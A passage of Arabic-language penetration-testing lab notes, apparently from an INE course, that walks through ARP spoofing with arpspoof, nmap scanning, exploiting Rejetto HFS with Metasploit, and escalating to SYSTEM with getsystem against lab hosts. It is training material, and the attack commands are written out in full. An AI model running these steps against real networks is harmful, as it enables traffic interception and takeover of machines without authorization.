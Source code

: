 In two separate terminals, start the ARP Spoof attack against 172.16.5.5 and 172.16.5.1 using these commands:
Commands:
```bash
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1  
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5  
```  
طبعا اول وحده كانت من التارقت للقيت واي  
اما الثانيه فالعكس من القيت واي الى التارقت  
ف اي شي راح يمر مابينهم لابد يمر من عند الاتاكر اول وبعدها الاتاكر يسوي له Forward  

الان نشوف ان الكلاينت الي نهايته 5.5 اي شي يرسله راح يجي الاتاكر اول وبعدها ينرسل للقيت واي والقيت واي او الراوتر يرسل الى الفايل سيرفر وبعدها الفايل سيرفر يرد على الراوتر او على القيت واي والقيت واي راح يرسل للاتاكر الرد مش للكلاينت والاتاكر يرسله للكلاينت بكذا اي شي يطلع من الكلاينت للراوتر لابد يمر من الاتاكر اولا وكذالك العكس اي شي طالع من الراوتر الى الكلاينت لابد يمر من عند الاتاكر اول  

نشوف الان انه اخذنا meterpreter session في الـ MSFconsole  
ومعنا اعلى صلاحيات  

الى هنا انتهى اللاب نشوف الي بعده  

---  

Post-Exploitation
------------------|  
طبعا اخذنا فكرة عن مابعد الاستغلال في كورس الـ PTS  
ف اي شي اخذناه سابقا راح نتركه بنشوف الاشياء الجديده يعني نمر عليه مرور الكرام  

اول شي خلونا نسوي بنق نشوف هل نقدر نوصل او لا  
```bash
ping demo.ine.local  
ping demo1.ine.local  
```  

طبعا نشوف انه الاول فيه رد الثاني مافيه ممكن يكون شبكة داخليه خلونا نفحص الاول بما انه نقدر نوصله  
```bash
nmap -sC -sV  demo.ine.local  
```  

نشوف طبعا انه عطانا بورتات كثيره مفتوحه  
طبعا بورت 80 نلاحظ انه فيه خدمة سبق واستغليناها الي هي HTTPFileServer راح نستغلها فورا  
```bash
msfconsole -q  
use exploit/windows/http/rejetto_hfs_exec  
show options  
set RHOSTS demo.ine.local  
exploit  
sysinfo  
getuid  
```  
نشوف انه تم الاستغلال ومعنا يوزر Administrator  
خلونا نحاول نرقي صلاحيتنا الى NT AUTHORITY\SYSTEM  
```bash
getsystem  
getuid  
```  
نشوف انه فعلا قدرنا نرفع الصلاحيات واخذنا اعلى صلاحيات في النظام  
